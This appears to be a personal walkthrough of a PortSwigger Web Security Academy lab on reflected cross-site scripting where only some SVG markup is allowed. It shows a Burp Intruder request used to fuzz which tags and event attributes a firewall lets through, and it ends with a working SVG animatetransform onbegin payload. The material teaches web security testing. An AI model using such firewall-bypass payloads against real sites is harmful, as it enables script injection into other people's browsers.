


# **Reflected XSS with some SVG markup allowed**

This lab is similar to [Reflected XSS into HTML context with most tags and attributes blocked](Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%2011c9cb7e4952804fa466d51b0f4cbfb2.html), we are going to use the intruder to check the tags and see which one works:

```
GET /?search=<§§> HTTP/1.1
Host: 0af4000f04ba39a583286fd2003400dd.h1-web-security-academy.net
Cookie: session=CDkLHUcFFGvKPyc8BM6D4AuyKVpiNqq9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af4000f04ba39a583286fd2003400dd.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

This is the request used in the intruder ☝️.

And the payloads from <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>:

1.  Use the tags using the Sniper/SimpleList config and paste them in the payloads. This is the result:



2.  Change the search term to \<svg\>\<animatetransform%20§§=1\> and clear the payload list, copy the events from <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet> and then paste it as payload. The results are:



So, I didn’t catch the event in the results screenshot 🤦. But svg, animatetransform and onbegin are tags not being caught by the WAF (Web Application Firewall). So the payload used is:

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E

Decoded: "><svg><animatetransform%20onbegin=alert(1)>
```
